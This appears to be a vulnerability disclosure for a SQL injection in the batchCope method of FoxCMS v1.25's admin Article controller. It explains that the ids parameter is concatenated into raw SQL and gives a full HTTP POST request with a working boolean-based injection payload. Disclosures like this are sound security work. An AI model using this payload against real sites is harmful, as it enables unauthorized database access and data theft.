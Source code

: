 # SQL Injection Vulnerability in FoxCMS

**Version: FoxCMS v1.25**

**Google Dork: N/A**

**Date: 05/13/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 8.0, PHP 7.3**

**Software Link: https://gitee.com/qianfox/foxcms**

**Description:** A SQL injection vulnerability exists in the `batchCope` method of the controller located at `app/admin/controller/Article.php`. Due to improper handling of the `ids` parameter, user input is directly embedded into a raw SQL query without validation or parameterization. This allows an authenticated attacker to inject arbitrary SQL statements, potentially leading to unauthorized access, extraction of sensitive data, or full compromise of the underlying database.

**code analysis**

The `batchCope` method retrieves the `ids` parameter from user input and directly concatenates it into a raw SQL query without any validation or parameter binding. This allows an attacker to inject arbitrary SQL code through the `ids` parameter, potentially leading to unauthorized access, data leakage, or modification of database contents.

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161945913.png)

**Payload used:**

```
POST /index.php/admin1738/Article/batchCope.html HTTP/1.1
Host: www.foxcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://www.foxcms.com
Connection: keep-alive
Referer: http://www.foxcms.com/index.php/admin1738/Article/index.html?columnId=28
Cookie: PHPSESSID=94901524f6ef7383bc9d9e2730738a3f
Priority: u=0

ids=1)+or+(select database())='foxcms'--+

```

Example：

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636029.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636079.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161802423.png)
